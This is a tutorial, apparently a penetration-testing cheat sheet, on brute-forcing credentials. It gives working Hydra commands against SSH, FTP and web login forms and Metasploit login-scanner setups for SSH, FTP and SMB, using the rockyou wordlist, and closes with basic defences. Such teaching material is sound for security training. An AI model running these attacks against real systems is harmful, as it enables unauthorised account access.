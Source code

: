    

Brute Forcing

# **Brute Forcing**

## **1. Understanding Brute Force Attacks**

Brute forcing is the process of systematically guessing passwords or credentials to gain access to a system. It can be done using:

- **Wordlists** (Precompiled lists of common passwords)
- **Dictionary Attacks** (Using wordlists to attempt login)
- **Brute Force Attacks** (Trying every possible combination)

---

## **2. Wordlists for Brute Forcing**

Kali Linux and Metasploit contain built-in wordlists for brute-force attacks:

|Wordlist|Location|
|---|---|
|**RockYou.txt**|`/usr/share/wordlists/rockyou.txt.gz` (Needs to be unzipped)|
|**Metasploit Unix Passwords**|`/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`|
|**Metasploit Common Credentials**|`/usr/share/metasploit-framework/data/wordlists/common_users.txt`|

To extract `rockyou.txt`:

gzip -d /usr/share/wordlists/rockyou.txt.gz

```
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

---

## **3. Brute Forcing with Hydra**

Hydra is a fast password-cracking tool for online brute force attacks.

### **Brute Force SSH with Hydra**

hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://<target-ip> -t 4

```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://<target-ip> -t 4
```

- `-L users.txt` → List of usernames
- `-P rockyou.txt` → Password list
- `-t 4` → Number of parallel threads

### **Brute Force FTP with Hydra**

hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://<target-ip>

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://<target-ip>
```

- `-l admin` → Single username

### **Brute Force Web Login (HTTP-POST Form)**

hydra -L users.txt -P passwords.txt <target-ip> http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"

```
hydra -L users.txt -P passwords.txt <target-ip> http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"
```

- `F=incorrect` → Failure message on wrong login

---

## **4. Brute Forcing with Metasploit**

Metasploit has **auxiliary modules** for brute-force attacks:

### **SSH Brute Force with Metasploit**

msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <target-ip>
set USER_FILE users.txt
set PASS_FILE /usr/share/wordlists/rockyou.txt
set THREADS 4
run

```
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <target-ip>
set USER_FILE users.txt
set PASS_FILE /usr/share/wordlists/rockyou.txt
set THREADS 4
run
```

### **Brute Force FTP**

use auxiliary/scanner/ftp/ftp_login
set RHOSTS <target-ip>
set USER_FILE users.txt
set PASS_FILE passwords.txt
run

```
use auxiliary/scanner/ftp/ftp_login
set RHOSTS <target-ip>
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```

### **Brute Force SMB**

use auxiliary/scanner/smb/smb_login
set RHOSTS <target-ip>
set SMBUser administrator
set PASS_FILE passwords.txt
run

```
use auxiliary/scanner/smb/smb_login
set RHOSTS <target-ip>
set SMBUser administrator
set PASS_FILE passwords.txt
run
```

---

## **5. Preventing Brute Force Attacks**

To protect against brute-force attacks:

- Use **strong, complex passwords**
- Enable **account lockouts** after multiple failed attempts
- Implement **multi-factor authentication (MFA)**
- Restrict login attempts using **fail2ban**
- Change default ports for services like **SSH**